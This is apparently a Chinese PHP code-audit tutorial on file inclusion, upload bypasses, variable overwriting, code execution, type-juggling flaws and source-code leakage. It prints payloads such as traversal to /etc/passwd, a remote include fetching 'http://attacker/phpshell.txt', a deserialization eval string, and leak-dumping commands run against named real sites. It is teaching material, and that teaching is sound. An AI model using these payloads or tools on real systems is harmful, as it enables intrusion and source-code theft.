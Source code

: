 PHP 代码审计
============

文件包含
--------

常见的导致文件包含的函数有：

-  PHP：``include()``，``include_once()``，``require()``，``require_once()``，``fopen()``，``readfile()`` 等
-  JSP Servlet：``ava.io.File()``，``java.io.FileReader()`` 等
-  ASP：``includefile``，``includevirtual`` 等

当 PHP 包含一个文件时，会将该文件当做 PHP 代码执行，而不会在意文件时什么类型。

本地文件包含
~~~~~~~~~~~~

本地文件包含，Local File Inclusion，LFI。

.. code-block:: php

    <?php
    $file = $_GET['file'];
    if (file_exists('/home/wwwrun/'.$file.'.php')) {
      include '/home/wwwrun/'.$file.'.php';
    }
    ?>

上述代码存在本地文件包含，可用 %00 截断的方式读取 ``/etc/passwd`` 文件内容。

-  %00 截断

   ::

     ?file=../../../../../../../../../etc/passwd%00

需要 ``magic_quotes_gpc=off``，PHP 小于 5.3.4 有效。

-  路径长度截断

   ::

     ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.

Linux 需要文件名长于 4096，Windows 需要长于 256。

-  点号截断

   ::

     ?file=../../../../../../../../../boot.ini/………[…]…………

只适用 Windows，点号需要长于 256。

远程文件包含
~~~~~~~~~~~~

远程文件包含，Remote File Inclusion，RFI。

.. code-block:: php

    <?php
    if ($route == "share") {
      require_once $basePath . "/action/m_share.php";
    } elseif ($route == "sharelink") {
      require_once $basePath . "/action/m_sharelink.php";
    }

构造变量 ``basePath`` 的值。

::

    /?basePath=http://attacker/phpshell.txt?

最终的代码执行了

.. code-block:: php

    require_once "http://attacker/phpshell.txt?/action/m_share.php";

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

-  普通远程文件包含

   ::
     
     ?file=[http|https|ftp]://example.com/shell.txt

需要 ``allow_url_fopen=On`` 并且 ``allow_url_include=On`` 。

-  利用 PHP 流 input

   ::

     ?file=php://input

需要 ``allow_url_include=On`` 。

-  利用 PHP 流 filter

   ::

     ?file=php://filter/convert.base64-encode/resource=index.php

需要 ``allow_url_include=On`` 。

-  利用 data URIs

   ::

     ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

需要 ``allow_url_include=On`` 。

-  利用 XSS 执行

   ::

     ?file=http://127.0.0.1/path/xss.php?xss=phpcode

需要 ``allow_url_fopen=On``，``allow_url_include=On`` 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。

文件上传
--------

文件上传漏洞是指用户上传了一个可执行脚本文件，并通过此文件获得了执行服器端命令的能力。在大多数情况下，文件上传漏洞一般是指上传 WEB 脚本能够被服务器解析的问题，也就是所谓的 webshell 问题。完成这一攻击需要这样几个条件，一是上传的文件能够这 WEB 容器执行，其次用户能从 WEB 上访问这个文件，最后，如果上传的文件被安全检查、格式化、图片压缩等功能改变了内容，则可能导致攻击失败。

绕过上传检查
~~~~~~~~~~~~

-  前端检查扩展名

   抓包绕过即可。

-  ``Content-Type`` 检测文件类型

   抓包修改 ``Content-Type`` 类型，使其符合白名单规则。

-  服务端添加后缀

   尝试 %00 截断。

-  服务端扩展名检测

   利用解析漏洞。

-  Apache 解析

   ``phpshell.php.rar.rar.rar.rar`` 因为 Apache 不认识 ``.rar`` 这个文件类型，所以会一直遍历后缀到 ``.php``，然后认为这是一个 PHP 文件。

-  IIS 解析

   IIS 6 下当文件名为 ``abc.asp;xx.jpg`` 时，会将其解析为 ``abc.asp``。

-  PHP CGI 路径解析

   当访问 ``http://www.a.com/path/test.jpg/notexist.php`` 时，会将 ``test.jpg`` 当做 PHP 解析， ``notexist.php`` 是不存在的文件。此时 Nginx 的配置如下

   .. code-block:: nginx

       location ~ \.php$ {
         root html;
         fastcgi_pass 127.0.0.1:9000;
         fastcgi_index index.php;
         fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
         include fastcgi_param;
       }

-  其他方式

   后缀大小写、双写、特殊后缀如 ``php5`` 等，修改包内容的大小写过 WAF 等。

变量覆盖
--------

全局变量覆盖
~~~~~~~~~~~~

变量如果未被初始化，且能够用户所控制，那么很可能会导致安全问题。

.. code-block:: ini

    register_globals=ON

示例

.. code-block:: php

    <?php
    echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";

    if ($auth) {
      echo "private!";
    }
    ?>

当 ``register_globals=ON`` 时，提交 ``test.php?auth=1``，``auth`` 变量将自动得到赋值。

``extract()`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~

``extract()`` 函数能够将变量从数组导入到当前的符号表，其定义为

::

    int extract ( array $var_array [, int $extract_type [, string $prefix ]] )

其中，第二个参数指定函数将变量导入符号表时的行为，最常见的两个值是 ``EXTR_OVERWRITE`` 和 ``EXTR_SKIP``。

当值为 ``EXTR_OVERWRITE`` 时，在将变量导入符号表的过程中，如果变量名发生冲突，则覆盖所有变量；值为 ``EXTR_SKIP`` 则表示跳过不覆盖。若第二个参数未指定，则在默认情况下使用 ``EXTR_OVERWRITE``。

.. code-block:: php

    <?php
    $auth = "0";
    extract($_GET);

    if ($auth == 1) {
      echo "private!";
    } else {
      echo "public!";
    }
    ?>

当 ``extract()`` 函数从用户可以控制的数组中导出变量时，可能发生变量覆盖。

``import_request_variables`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    bool import_request_variables (string $types [, string $prefix])

``import_request_variables`` 将 GET、POST、Cookies 中的变量导入到全局，使用这个函数只用简单地指定类型即可。

.. code-block:: php

    <?php
    $auth = "0";
    import_request_variables("G");

    if ($auth == 1) {
      echo "private!";
    } else {
      echo "public!";
    }
    ?>

``import_request_variables("G")`` 指定导入 GET 请求中的变量，提交 ``test.php?auth=1`` 出现变量覆盖。

``parse_str()`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~~~

::

    void parse_str ( string $str [, array &$arr ])

``parse_str()`` 函数通常用于解析 URL 中的 querystring，但是当参数值可以被用户控制时，很可能导致变量覆盖。

.. code-block:: php

    // var.php?var=new  变量覆盖
    $var = "init";
    parse_str($_SERVER["QUERY_STRING"]);
    print $var;

与 ``parse_str()`` 类似的函数还有 ``mb_parse_str()``。

命令执行
--------

直接执行代码
~~~~~~~~~~~~

PHP 中有不少可以直接执行代码的函数。

.. code-block:: php

    eval();
    assert();
    system();
    exec();
    shell_exec();
    passthru();
    escapeshellcmd();
    pcntl_exec();
    ......

``preg_replace()`` 代码执行
~~~~~~~~~~~~~~~~~~~~~~~~~~~

``preg_replace()`` 的第一个参数如果存在 ``/e`` 模式修饰符，则允许代码执行。

.. code-block:: php

    <?php
    $var = "<tag>phpinfo()</tag>";
    preg_replace("/<tag>(.*?)<\/tag>/e", "addslashes(\\1)", $var);
    ?>

如果没有 ``/e`` 修饰符，可以尝试 %00 截断。

动态函数执行
~~~~~~~~~~~~

用户自定义的函数可以导致代码执行。

.. code-block:: php

    <?php
    $dyn_func = $_GET["dyn_func"];
    $argument = $_GET["argument"];
    $dyn_func($argument);
    ?>

反引号命令执行
~~~~~~~~~~~~~~

.. code-block:: php

    <?php
    echo `ls -al`;
    ?>

Curly Syntax
~~~~~~~~~~~~

PHP 的 Curly Syntax 也能导致代码执行，它将执行花括号间的代码，并将结果替换回去。

.. code-block:: php

    <?php
    $var = "aaabbbccc ${`ls`}";
    ?>

.. code-block:: php

    <?php
    $foobar = "phpinfo";
    ${"foobar"}();
    ?>

回调函数
~~~~~~~~

很多函数都可以执行回调函数，当回调函数用户可控时，将导致代码执行。

.. code-block:: php

    <?php
    $evil_callback = $_GET["callback"];
    $some_array = array(0,1,2,3);
    $new_array = array_map($evil_callback, $some_array);
    ?>

攻击 payload

::

    http://www.a.com/index.php?callback=phpinfo

反序列化
~~~~~~~~

如果 ``unserialize()`` 在执行时定义了 ``__destruct()`` 或 ``__wakeup()`` 函数，则有可能导致代码执行。

.. code-block:: php

    <?php
    class Example {
      var $var = "";
      function __destruct() {
        eval($this->$var);
      }
    }
    unserialize($_GET["saved_code"]);
    ?>

攻击 payload

::

    http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}

PHP 特性
--------

数组
~~~~

.. code-block:: php

    <?php
    $var = 1;
    $var = array();
    $var = "string";
    ?>

php 不会严格检验传入的变量类型，也可以将变量自由的转换类型。

比如在 ``$a == $b`` 的比较中

::

    $a = null; 
    $b = false; //为真 
    $a = ''; 
    $b = 0; //同样为真

然而，PHP 内核的开发者原本是想让程序员借由这种不需要声明的体系，更加高效的开发，所以在几乎所有内置函数以及基本结构中使用了很多松散的比较和转换，防止程序中的变量因为程序员的不规范而频繁的报错，然而这却带来了安全问题。

.. code-block:: php

    0=='0' //true
    0 == 'abcdefg' //true
    0 === 'abcdefg' //false
    1 == '1abcdef' //true

魔法 Hash
~~~~~~~~~

.. code-block:: php

    "0e132456789"=="0e7124511451155" //true
    "0e123456abc"=="0e1dddada" //false
    "0e1abc"=="0"  //true

在进行比较运算时，如果遇到了 ``0e\d+`` 这种字符串，就会将这种字符串解析为科学计数法。所以上面例子中 2 个数的值都是 0 因而就相等了。如果不满足 ``0e\d+`` 这种模式就不会相等。

十六进制转换
~~~~~~~~~~~~

.. code-block:: php

    "0x1e240"=="123456" //true
    "0x1e240"==123456 //true
    "0x1e240"=="1e240" //false

当其中的一个字符串是 ``0x`` 开头的时候，PHP 会将此字符串解析成为十进制然后再进行比较，``0x1240`` 解析成为十进制就是 123456，所以与 ``int`` 类型和 ``string`` 类型的 123456 比较都是相等。

类型转换
~~~~~~~~

常见的转换主要就是 ``int`` 转换为 ``string``，``string`` 转换为 ``int``。

``int`` 转 ``string``

.. code-block:: php

    $var = 5;
    方式1：$item = (string)$var;
    方式2：$item = strval($var);

``string`` 转 ``int``：``intval()`` 函数。

对于这个函数，可以先看 2 个例子。

.. code-block:: php

    var_dump(intval('2')) //2
    var_dump(intval('3abcd')) //3
    var_dump(intval('abcd')) //0

说明 ``intval()`` 转换的时候，会将从字符串的开始进行转换知道遇到一个非数字的字符。即使出现无法转换的字符串， ``intval()`` 不会报错而是返回 0。

同时，程序员在编程的时候也不应该使用如下的这段代码：

.. code-block:: php

    if(intval($a)>1000) {
     mysql_query("select * from news where id=".$a)
    }

这个时候 ``$a`` 的值有可能是 ``1002 union``。

内置函数的参数的松散性
~~~~~~~~~~~~~~~~~~~~~~

内置函数的松散性说的是，调用函数时给函数传递函数无法接受的参数类型。解释起来有点拗口，还是直接通过实际的例子来说明问题，下面会重点介绍几个这种函数。

**md5()**

.. code-block:: php

    $array1[] = array(
     "foo" => "bar",
     "bar" => "foo",
    );
    $array2 = array("foo", "bar", "hello", "world");
    var_dump(md5($array1)==var_dump($array2)); //true

PHP 手册中的 md5（）函数的描述是 ``string md5 ( string $str [, bool $raw_output = false ] )``，``md5()`` 中的需要是一个 string 类型的参数。但是当你传递一个 array 时，``md5()`` 不会报错，只是会无法正确地求出 array 的 md5 值，这样就会导致任意 2 个 array 的 md5 值都会相等。

**strcmp()**

``strcmp()`` 函数在 PHP 官方手册中的描述是 ``intstrcmp ( string $str1 ， string $str2 )``，需要给 ``strcmp()`` 传递 2 个 ``string`` 类型的参数。如果 ``str1`` 小于 ``str2``，返回 -1，相等返回 0，否则返回 1。``strcmp()`` 函数比较字符串的本质是将两个变量转换为 ASCII，然后进行减法运算，然后根据运算结果来决定返回值。

如果传入给出 ``strcmp()`` 的参数是数字呢？

.. code-block:: php

    $array=[1,2,3];
    var_dump(strcmp($array,'123')); //null,在某种意义上null也就是相当于false。

**switch()**

如果 ``switch()`` 是数字类型的 case 的判断时，switch
会将其中的参数转换为 int 类型。如下：

.. code-block:: php

    $i ="2abc";
    switch ($i) {
    case 0:
    case 1:
    case 2:
     echo "i is less than 3 but not negative";
     break;
    case 3:
     echo "i is 3";
    }

这个时候程序输出的是 ``i is less than 3 but not negative`` ，是由于 ``switch()`` 函数将 ``$i`` 进行了类型转换，转换结果为
2。

**in\_array()**

在 PHP
手册中， ``in_array()`` 函数的解释是 ``bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )``
,如果strict参数没有提供，那么in\_array就会使用松散比较来判断 ``$needle`` 是否在 ``$haystack`` 中。当
strince 的值为 true 时， ``in_array()`` 会比较 needls 的类型和
haystack 中的类型是否相同。

.. code-block:: php

    $array=[0,1,2,'3'];
    var_dump(in_array('abc', $array)); //true
    var_dump(in_array('1bc', $array)); //true

可以看到上面的情况返回的都是 true，因为 ``'abc'`` 会转换为
0， ``'1bc'`` 转换为 1。

``array_search()`` 与 ``in_array()`` 也是一样的问题。

寻找源代码备份
--------------

hg 源码泄露
~~~~~~~~~~~

``hg init`` 时会产生 ``.hg`` 文件。

`利用工具 dvcs-ripper <https://github.com/kost/dvcs-ripper>`_

Git 源码泄露
~~~~~~~~~~~~

``.git`` 目录内有代码的变更记录等文件，如果部署时该目录下的文件可被访问，可能会被利用来恢复源代码。

::

    /.git
    /.git/HEAD
    /.git/index
    /.git/config
    /.git/description

`GitHack <https://github.com/lijiejie/GitHack>`_

.. code-block:: shell

    python GitHack.py http://www.openssl.org/.git/

`GitHacker（可恢复完整 Git 仓库） <https://github.com/WangYihang/GitHacker>`_

.. code-block:: shell

    python GitHacker.py http://www.openssl.org/.git/

``.DS_Store`` 文件泄露
~~~~~~~~~~~~~~~~~~~~~~

Mac OS 中会包含有 ``.DS_Store`` 文件，包含文件名等信息。

`利用工具 ds＿store＿exp <https://github.com/lijiejie/ds_store_exp>`_

.. code-block:: shell

    python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

    hd.zj.qq.com/
    └── themes
        └── galaxyw
            ├── app
            │   └── css
            │       └── style.min.css
            ├── cityData.min.js
            ├── images
            │   └── img
            │       ├── bg-hd.png
            │       ├── bg-item-activity.png
            │       ├── bg-masker-pop.png
            │       ├── btn-bm.png
            │       ├── btn-login-qq.png
            │       ├── btn-login-wx.png
            │       ├── ico-add-pic.png
            │       ├── ico-address.png
            │       ├── ico-bm.png
            │       ├── ico-duration-time.png
            │       ├── ico-pop-close.png
            │       ├── ico-right-top-delete.png
            │       ├── page-login-hd.png
            │       ├── pic-masker.png
            │       └── ticket-selected.png
            └── member
                ├── assets
                │   ├── css
                │   │   ├── ace-reset.css
                │   │   └── antd.css
                │   └── lib
                │       ├── cityData.min.js
                │       └── ueditor
                │           ├── index.html
                │           ├── lang
                │           │   └── zh-cn
                │           │       ├── images
                │           │       │   ├── copy.png
                │           │       │   ├── localimage.png
                │           │       │   ├── music.png
                │           │       │   └── upload.png
                │           │       └── zh-cn.js
                │           ├── php
                │           │   ├── action_crawler.php
                │           │   ├── action_list.php
                │           │   ├── action_upload.php
                │           │   ├── config.json
                │           │   ├── controller.php
                │           │   └── Uploader.class.php
                │           ├── ueditor.all.js
                │           ├── ueditor.all.min.js
                │           ├── ueditor.config.js
                │           ├── ueditor.parse.js
                │           └── ueditor.parse.min.js
                └── static
                    ├── css
                    │   └── page.css
                    ├── img
                    │   ├── bg-table-title.png
                    │   ├── bg-tab-say.png
                    │   ├── ico-black-disabled.png
                    │   ├── ico-black-enabled.png
                    │   ├── ico-coorption-person.png
                    │   ├── ico-miss-person.png
                    │   ├── ico-mr-person.png
                    │   ├── ico-white-disabled.png
                    │   └── ico-white-enabled.png
                    └── scripts
                        ├── js
                        └── lib
                            └── jquery.min.js

    21 directories, 48 files

网站备份文件
~~~~~~~~~~~~

管理员备份网站文件后错误地将备份放在 Web 目录下。

常见的后缀名：

::

    .rar
    .zip
    .7z
    .tar
    .tar.gz
    .bak
    .txt

SVN 泄露
~~~~~~~~

敏感文件：

::

    /.svn
    /.svn/wc.db
    /.svn/entries

`dvcs-ripper <https://github.com/kost/dvcs-ripper>`_

.. code-block:: shell

    perl rip-svn.pl -v -u http://www.example.com/.svn/

`Seay - SVN <http://tools.40huo.cn/#!web.md#源码泄露>`_

WEB-INF / web.xml 泄露
~~~~~~~~~~~~~~~~~~~~~~

WEB-INF 是 Java Web 应用的安全目录，web.xml 中有文件的映射关系。

WEB-INF 主要包含一下文件或目录：

-  ``/WEB-INF/web.xml`` ：Web 应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
-  ``/WEB-INF/classes/`` ：含了站点所有用的 class 文件，包括 servlet class 和非 servlet class，他们不能包含在。jar 文件中。
-  ``/WEB-INF/lib/`` ：存放 web 应用需要的各种 JAR 文件，放置仅在这个应用中要求使用的 jar 文件，如数据库驱动 jar 文件。
-  ``/WEB-INF/src/`` ：源码目录，按照包名结构放置各个 java 文件。
-  ``/WEB-INF/database.properties`` ：数据库配置文件。

通过找到 web.xml 文件，推断 class 文件的路径，最后直接 class 文件，在通过反编译 class 文件，得到网站源码。 一般情况，jsp 引擎默认都是禁止访问 WEB-INF 目录的，Nginx 配合 Tomcat 做均衡负载或集群等情况时，问题原因其实很简单，Nginx 不会去考虑配置其他类型引擎（Nginx 不是 jsp 引擎）导致的安全问题而引入到自身的安全规范中来（这样耦合性太高了），修改 Nginx 配置文件禁止访问 WEB-INF 目录就好了：

.. code-block:: nginx

    location ~ ^/WEB-INF/* { deny all; } # 或者return 404; 或者其他！

CVS 泄露
~~~~~~~~

::

    http://url/CVS/Root 返回根信息
    http://url/CVS/Entries 返回所有文件的结构

取回源码

.. code-block:: shell

    bk clone http://url/name dir
